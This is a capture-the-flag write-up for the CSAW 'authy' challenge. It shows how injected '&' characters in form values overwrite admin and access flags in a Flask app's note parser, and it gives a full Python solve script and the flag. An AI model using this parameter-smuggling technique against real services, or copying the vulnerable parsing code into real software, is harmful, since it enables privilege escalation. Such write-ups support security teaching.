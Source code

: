 # authy

Author: [roerohan](https://github.com/roerohan) and [thebongy](https://github.com/thebongy)

This is another `file` challenge.

# Requirements

- Python

# Source

- [handout.py](./handout.py)

```
Check out this new storage application that your government has started! It's supposed to be pretty secure since everything is authenticated...

curl crypto.chal.csaw.io:5003
```

# Exploitation

This is possibly an probably solution. We do not use any crypto, just exploit the following lines of code:

```py
params = identifier.replace('&', ' ').split(" ")
note_dict = { param.split("=")[0]: param.split("=")[1]  for param in params }
```

We can make use of the replace `'&'` with `' '` by inserting `'&'`s in the values for the query params, so that the resultant strings turn out like the following.

```
admin=False&access_sensitive=False&author=&admin=True&access_sensitive=True&note=&entrynum=783
```

Here, we pass the value of `author` as `&admin=True&access_sensitive=True`, so that when the server replaces `'&'` by `' '`, the `admin` and the `access_sensitive` keys are overwritten.
<br />

There is one small problem, the `entrynum` is attached to the end of the string, hence can't be overwritten by using this technique. We can look into the `/new` route to find out why it's at the end.
<br />

In the `/new` route, the following code is executed:

```py
payload = flask.request.form.to_dict()
if "author" not in payload.keys():
    return ">:(\n"
if "note" not in payload.keys():
    return ">:(\n"

if "admin" in payload.keys():
    return ">:(\n>:(\n"
if "access_sensitive" in payload.keys():
    return ">:(\n>:(\n"

info = {"admin": "False", "access_sensitive": "False" }
info.update(payload)
info["entrynum"] = 783
```

The `entrynum` key is set at the end, hence it appears at the end. Therefore, if the request body already had a key called `entrynum` before `author`, it would show up before and could be overwritten by using the `&` strategy in `author` or `note`. The following script can be used to solve the challenge.

```py
import requests
import base64

local = False

url = lambda x: "http://crypto.chal.csaw.io:5003" + x

if local:
    url = lambda x: "http://localhost:5000" + x


def view(id, integrity):
    print(f"\n\nSending id={id}, integrity={integrity}\n\n")
    r = requests.post(
        url("/view"),
        data={
            "id": id,
            "integrity": integrity,
        },
    )

    print("\n\n")
    print(r.text)
    return r.text


data = {
    "entrynum": 7,
    "author": "&admin=True",
    "note": "&access_sensitive=True&entrynum=7",
}

r = requests.post(url("/new"), data=data)

encoded, hexdigest = r.text.strip().split(":")
encoded = encoded.split('Successfully added ')[1]

print("Encoded: " + encoded)
print("Hexdigest: " + hexdigest)

flag = view(encoded, hexdigest)
```

The flag is:

```
flag{h4ck_th3_h4sh}
```
